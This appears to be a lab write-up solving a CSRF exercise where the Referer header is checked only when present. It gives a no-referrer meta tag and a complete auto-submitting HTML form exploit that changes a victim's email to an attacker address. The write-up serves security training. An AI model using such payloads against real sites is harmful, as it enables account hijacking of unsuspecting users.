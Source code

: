 - **No CSRF tokens** were present in the request body or cookies.
- The only noticeable difference was the presence of a `Referer` header.
- This header wasn’t used in previous CSRF labs.

To test its impact, I removed the `Referer` header and resubmitted the request.

![image](https://github.com/user-attachments/assets/03f17185-413f-4d32-813a-df9a97aa514f)


> ✅ **Result**: The request was still successful without the `Referer` header.

This confirmed that the application checks the `Referer` header as a CSRF defense mechanism.

---


To bypass this defense, I needed to **suppress the `Referer` header** from being sent with the malicious request.

Send the request to POC generator & add the following line to tell the application to ignore Referrer header.

```html
<meta name="referrer" content="no-referrer">
```

This instructs the browser not to send the `Referer` header when the exploit is triggered.

---


With that in place, I crafted a simple CSRF exploit:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com" />
      <input type="submit" value="Click me" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

![image](https://github.com/user-attachments/assets/a7254e7c-df7d-44a8-ab09-518d63a14377)


I hosted the above payload on the **exploit server** provided by the lab. When the victim visited the exploit page the lab will be solved:

